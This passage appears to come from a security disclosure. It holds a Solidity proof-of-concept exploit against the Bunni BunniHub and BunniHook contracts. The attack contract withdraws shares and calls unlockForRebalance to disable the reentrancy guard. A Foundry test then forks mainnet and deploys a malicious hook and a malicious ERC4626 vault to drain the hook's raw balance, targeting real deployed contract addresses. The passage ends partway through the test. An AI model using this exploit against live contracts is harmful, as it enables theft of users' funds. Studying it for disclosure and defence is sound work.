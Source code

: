 ```solidity
                sharesToWithdraw /= 2;

                hub.withdraw(
                    IBunniHub.WithdrawParams({
                        poolKey: key,
                        recipient: address(this),
                        shares: sharesToWithdraw,
                        amount0Min: 0,
                        amount1Min: 0,
                        deadline: block.timestamp,
                        useQueuedWithdrawal: false
                    })
                );
            }
        }
    }

    function disableReentrancyGuard() public {
        hub.unlockForRebalance(key);
    }

    fallback() external payable {}
}
```

* With all of the above, this test can be run from inside `test/BunniHub.t.sol`:

```solidity
function test_ForkHookHandleSwapDrainRawBalancePoC() public {
    uint256 mainnetFork;
    string memory MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
    mainnetFork = vm.createFork(MAINNET_RPC_URL);
    vm.selectFork(mainnetFork);
    vm.rollFork(22347121);

    address USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address USDCVault = 0x3b028b4b6c567eF5f8Ca1144Da4FbaA0D973F228; // Euler vault

    IERC20 token0 = IERC20(USDC);
    IERC20 token1 = IERC20(WETH);
    poolManager = IPoolManager(0x000000000004444c5dc75cB358380D2e3dE08A90);
    hub = IBunniHub(0x000000DCeb71f3107909b1b748424349bfde5493);
    bunniHook = BunniHook(payable(0x0010d0D5dB05933Fa0D9F7038D365E1541a41888));

    // 1. Create the malicious pool linked to the malicious hook
    bytes32 salt;
    unchecked {
        bytes memory creationCode = abi.encodePacked(type(CustomHook).creationCode);
        uint256 offset;
        while (true) {
            salt = bytes32(offset);
            address deployed = computeAddress(address(this), salt, creationCode);
            if (uint160(bytes20(deployed)) & Hooks.ALL_HOOK_MASK == HOOK_FLAGS && deployed.code.length == 0) {
                break;
            }
            offset++;
        }
    }
    address customHook = address(new CustomHook{salt: salt}());

    // 2. Create the malicious vault
    MaliciousERC4626 maliciousVault = new MaliciousERC4626(token1, customHook);
```